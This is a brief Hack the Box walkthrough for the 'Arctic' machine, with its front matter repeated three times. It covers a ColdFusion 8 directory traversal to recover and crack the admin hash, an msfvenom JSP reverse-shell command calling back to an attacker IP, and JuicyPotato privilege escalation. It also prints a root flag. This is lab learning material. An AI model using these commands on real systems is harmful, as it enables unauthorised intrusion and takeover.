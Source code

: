 ```yaml
---
title: Arctic - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Arctic.png
---
```

---
title: Arctic - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Arctic.png
---
---
title: 2024-10-12-Arctic - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Arctic.png
---
### Scan
```
--------------------Starting Vulns Scan-----------------------

Running CVE scan on all ports



PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



Running Vuln scan on all ports
This may take a while, depending on the number of detected services..



PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
### Enum
8500
Directory Listing via http
research on cold. Fusion 8 admin portal, directory traversal for passwd hash
https://nets.ec/Coldfusion_hacking read up on it here. 
pwd hash `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` - `happyday`
When logged in, we can look at mappings to see where to potentially place files. ` C:\ColdFusion8\wwwroot\CFIDE`
Once found, go to scheduled tasks, and use python link to serve jsp web executable shell from msfvenom.

`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=4321 -f raw -o pwn.jsp`

![Image](/assets/Screenshot 2024-10-05 at 8.57.19 AM.png)

Go back to initial directory, and nagivate to the web shell

![Image](/assets/Screenshot 2024-10-05 at 8.57.02 AM.png)

Shell ![Image](/assets/Screenshot 2024-10-05 at 8.57.38 AM.png)

SEImpersonate! Juicy pot! Rev shell!

make and go to temp dir. Move files over with certutil. then start listener for higher priv shell

`jp.exe -l 9999 -p rev.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`

higher priv!![Image](/assets/Screenshot 2024-10-05 at 9.06.10 AM.png)

ROOT:47526c0fca39f552b54dc6b755bc82cb

### Init
### Priv Esc
